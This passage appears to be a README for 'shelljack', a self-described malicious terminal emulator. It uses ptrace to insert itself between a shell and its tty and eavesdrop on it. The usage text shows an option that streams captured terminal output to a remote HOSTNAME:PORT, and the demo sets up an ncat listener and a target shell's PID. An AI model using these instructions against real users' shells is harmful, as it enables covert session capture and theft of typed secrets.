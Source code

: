 _shelljack_ is a [malicious](http://en.wikipedia.org/wiki/Malware) [terminal emulator](http://en.wikipedia.org/wiki/Terminal_emulator) that uses [ptrace](http://en.wikipedia.org/wiki/Ptrace) to insert itself between a shell and it's [controlling tty](https://github.com/emptymonkey/ctty).

**What Architectures / OSs will this run on?**

Currently, _shelljack_ will only run on x86_64 Linux. Because _shelljack_ uses the Linux ptrace interface to inject assembly language [syscalls](http://en.wikipedia.org/wiki/Syscall) into a target process, nothing here is portable. That said, check out my other project, [<i>ptrace_do</i>](https://github.com/emptymonkey/ptrace_do). If I get around to supporting <i>ptrace_do</i> for other architectures, then porting _shelljack_ shouldn't be too hard.

**Please tell me more about this [deep magic](http://en.wikipedia.org/wiki/Deep_magic) of which you speak!**

* ptrace is the debugging interface provided by the Linux kernel. It is a *very* powerful tool, and the aspiring hacker would do well to study it. The best introduction I've seen comes in the form of two articles by Pradeep Padala dating back to 2002: [Playing with ptrace, Part I](http://www.linuxjournal.com/article/6100) and [Playing with ptrace, Part II](http://www.linuxjournal.com/article/6210)

* A solid understanding of [tty](http://en.wikipedia.org/wiki/Tty_%28Unix%29) fundamentals is necessary to fully understand the Unix / Linux command line. The best tutorial on this topic is easily [The TTY demystified](http://www.linusakesson.net/programming/tty/) by [Linus Åkesson](http://www.linusakesson.net/pages/me.php). 

# Usage #

	empty@monkey:~$ shelljack --help
	usage: shelljack [-f FILE]|[-n HOSTNAME:PORT] PID
        -f FILE                 Send the output to a FILE. (This is particularly useful with FIFOs.)
        -n HOSTNAME:PORT        Connect to the HOSTNAME and PORT then send the output there.
        PID                     Process ID of the target process.
        NOTE: One of either -f or -n is required.

In order to properly mitm the [signals](http://en.wikipedia.org/wiki/Unix_signal) generated by the controlling tty, _shelljack_ must detach from it's original launch terminal. Because of this, you'll need to set up a listener to catch its eavesdropped output. [Ncat](http://nmap.org/ncat/) works nicely for this. (We've chosen localhost and port 9999 here, but _shelljack_ will happily use any [address](http://linux.die.net/man/3/getaddrinfo) that the machine will route.)

Let's do a demo. I'll be running the [tty](http://linux.die.net/man/1/tty) command in these examples to demonstrate which terminal the various commands are being run in.

Start by setting up a listener:

	empty@monkey:~$ tty
	/dev/pts/0
	empty@monkey:~$ ncat -k -l localhost 9999

Since this is a demo, let's also examine the shell we want to target:

	empty@monkey:~$ tty
	/dev/pts/3
	empty@monkey:~$ echo $$
	19716
	empty@monkey:~$ ls -l /proc/$$/fd
	total 0
	lrwx------ 1 empty empty 64 Jun 16 16:17 0 -> /dev/pts/3
	lrwx------ 1 empty empty 64 Jun 16 16:18 1 -> /dev/pts/3
	lrwx------ 1 empty empty 64 Jun 16 16:18 2 -> /dev/pts/3
	lrwx------ 1 empty empty 64 Jun 16 16:18 255 -> /dev/pts/3
